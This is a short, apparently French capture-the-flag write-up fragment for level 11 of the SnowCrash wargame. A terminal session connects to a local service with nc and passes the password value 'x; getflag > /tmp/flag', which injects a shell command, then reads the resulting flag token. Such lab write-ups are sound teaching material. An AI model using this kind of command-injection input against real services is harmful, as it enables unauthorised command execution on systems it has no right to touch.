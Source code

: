 ### Comment obtenir le flag
level11@SnowCrash:/tmp$ nc 127.0.0.1 5151  
Password: x; getflag > /tmp/flag  
Erf nope..  
level11@SnowCrash:/tmp$ cat /tmp/flag  
Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s  
level11@SnowCrash:/tmp$ su level12  
Password:  
level12@SnowCrash:~$  
